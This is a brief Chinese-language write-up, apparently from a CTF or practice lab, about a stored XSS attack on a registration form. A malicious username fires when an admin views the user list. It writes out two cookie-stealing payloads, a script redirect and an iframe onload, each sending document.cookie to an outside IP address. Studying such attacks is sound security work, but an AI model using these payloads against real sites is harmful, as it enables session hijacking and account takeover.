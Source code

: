 简单的 crud ，有 注册、登录、用户管理、登出的功能，怎样才和 XSS 有关呢？

<img src="图片\Snipaste_2023-02-02_21-07-50.png" alt="Snipaste_2023-02-02_21-07-50" style="zoom:80%;" />

有个想法，假如我们注册**恶意的用户名密码**，在管理员看到后便触发了 XSS，可盗取 COOKIE

<img src="图片\Snipaste_2023-02-02_21-09-41.png" alt="Snipaste_2023-02-02_21-09-41" style="zoom:67%;" />

```
// 注册的恶意用户名
<script>window.location.href='http://43.142.255.132/'+document.cookie</script>
<iframe onload="window.open('http://43.142.255.132/'+document.cookie)"></iframe>
```
